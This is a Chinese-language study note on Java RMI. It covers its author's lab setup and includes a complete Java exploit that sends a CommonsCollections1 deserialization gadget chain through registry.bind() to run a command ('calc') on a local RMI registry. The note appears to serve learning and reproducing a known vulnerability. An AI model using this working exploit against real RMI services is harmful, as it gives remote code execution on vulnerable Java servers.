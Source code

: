 # RMI

## 前言

苦 RMI 久矣，我缺少一篇好的文章全面、细致地为我讲述 RMI，而且我觉得 RMI 这个机制真的很有用。我太爱远程调用某些资源了！

书读百遍，其意自现。纸上得来终觉浅，绝知此事要躬行。所以我的方法论是先看一些 RMI 文章，最后进行实操。

**推荐阅读（按序）**

1. https://www.oreilly.com/library/view/learning-java/1565927184/ch11s04.html

记录一下关于阅读上述文章的复现

首先是jdk6u29的下载，下完之后记得改系统环境变量里面的path，这一点很重要。详情可以这篇[文章](https://blog.csdn.net/mnorst/article/details/6941194)。

~~之后是 payload 的编译问题，第一个复现我编译了四个类，具体那四个忘记了，反之测一下就明白。当然至关重要的是不要在 payload 同目录下运行 java，这样会提示找不到主类，具体我也不明白为什么，总之需要去到包名那个起始目录。~~

真的难受，无论怎么也找不到 main方法，后面在 vscode 里面编译居然成功了，vscode 永远的神！

**复现结果**

运行客户端、服务端之后成功弹出计算器。



## RMI攻击复现

### 环境搭建

1. 创建两个 idea 项目（不在同目录下），分别对应客户端和服务器
2. 运行服务器
3. 在客户端编写 payload 发送到服务器，这里要利用 maven 引入 CC 包依赖，记得重新构建一下
4. 复现失败，猜测 jdk 版本有问题，原作者没给出他的版本，我真的会谢...

- jdk 版本是 8u65

```xml
    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.2.1</version>
    </dependency>
```



### bind() 和 readbind()

这两个方法最终会根据传入的远程对象调用 readObject() 方法，所以存在反序列化漏洞。exp 编写的核心思路也不复杂，已知最终会根据远程对象调用 readObject()，并且我们知道远程对象实际上是一个代理实例，所以可以在远程对象的调用处理器上着手。巧合的是，CC1 刚好就利用到了某个调用处理器类进行攻击，我们把 CC1 的 payload 搬过来直接用就好，不过要注意定义完代理类实例要转成 Remote 对象。

```java
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.TransformedMap;  
  
import java.lang.annotation.Target;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Proxy;  
import java.rmi.Remote;  
import java.rmi.registry.LocateRegistry;  
import java.rmi.registry.Registry;  
import java.util.HashMap;  
import java.util.Map;  
  
public class AttackRegistryEXP {  
    public static void main(String[] args) throws Exception{  

        Registry registry = LocateRegistry.getRegistry(
            "127.0.0.1",
            1099
        );  
        InvocationHandler handler = (InvocationHandler) CC1();

        Remote remote = Remote.class.cast(Proxy.newProxyInstance(  
                Remote.class.getClassLoader(),
                new Class[] { Remote.class }, 
                handler)
            );  
        registry.bind("test",remote);  
 }  
  
    public static Object CC1() throws Exception{

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                    "getMethod",  
                    new Class[]{String.class, Class[].class}, 
                    new Object[]{"getRuntime", null}
                ),  
                new InvokerTransformer(
                    "invoke", 
                    new Class[]{Object.class, Object[].class}, 
                    new Object[]{null, null}
                ),  
                new InvokerTransformer(
                    "exec", 
                    new Class[]{String.class}, 
                    new Object[]{"calc"}
                )  
        };  
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
        HashMap<Object, Object> hashMap = new HashMap<>();  
        hashMap.put("value","drunkbaby");  
        Map<Object, Object> transformedMap = TransformedMap.decorate(
            hashMap, 
            null, 
            chainedTransformer
        );  
        Class c = Class.forName(
            "sun.reflect.annotation.AnnotationInvocationHandler"
        );  
        Constructor aihConstructor = c.getDeclaredConstructor(
            Class.class, Map.class
        );  
        aihConstructor.setAccessible(true);  
        Object o = aihConstructor.newInstance(Target.class, transformedMap);  
        return o;  
 }  
}
```



## 推荐阅读

1. [Java远程方法调用(RMI) - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/135360489)

虽然啰嗦了一些，但是是对于官方rmi描述的汉化翻译，还是值得一看的。

2. [Java的RMI介绍及使用方法详解 | w3cschool笔记](https://www.w3cschool.cn/article/30445887.html)

这篇我看完了，感觉也挺不错，说的很简单。

3. 最后是 RMI 漏洞成因的[源码分析](https://drun1baby.top/2022/07/19/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BRMI%E4%B8%93%E9%A2%9801-RMI%E5%9F%BA%E7%A1%80/)

4. RMI的攻击方式[看看这个](https://github.com/Maskhe/javasec/blob/master/7.%E6%94%BB%E5%87%BBrmi%E7%9A%84%E6%96%B9%E5%BC%8F.md)
